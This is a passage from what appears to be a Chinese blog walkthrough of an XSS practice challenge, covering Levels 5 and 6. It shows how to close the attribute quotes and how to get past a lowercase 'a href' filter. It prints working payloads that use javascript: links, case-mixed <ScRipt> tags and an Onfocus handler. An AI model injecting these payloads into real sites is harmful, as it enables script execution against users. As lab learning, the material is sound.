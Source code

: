 

<img src="https://i-blog.csdnimg.cn/blog_migrate/8ac459ace3884d9a40ef67ab01434bd4.png" alt="" style="max-height:69px; box-sizing:content-box;" />


我们需要闭合 所以修改paylaod

```xml
"> <a href=javascript:alert()>xxxxx</a>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/9d07de2b2137174f1e8e7a95ae884b17.png" alt="" style="max-height:103px; box-sizing:content-box;" />


还需要将后面的 "> 闭合

所以最后的payload为

```xml
"> <a href=javascript:alert()>xxxxx</a> <"
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/4a43f791ecfd91387735a29680e3f2b3.png" alt="" style="max-height:218px; box-sizing:content-box;" />


点击即可实现

## Level6   【过滤 a href】

我们把上面的 payload 丢进去看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/80e61ed0c1d7a98f6b08d68b0b16f7a7.png" alt="" style="max-height:77px; box-sizing:content-box;" />


发现 过滤 了 a href



<img src="https://i-blog.csdnimg.cn/blog_migrate/aa3728f5e05cdcfde097a2af7875cbcb.png" alt="" style="max-height:200px; box-sizing:content-box;" />


但是放出来了 大小写 所以我们可以

### 大小写绕过

"> <ScRipt>alert()</ScRipt> <"

或者

"> <a HrEf=javascript:alert()>xxxx</a> <"

又或者

" Onfocus=javascript:alert() "

## Level7  【替换为空】
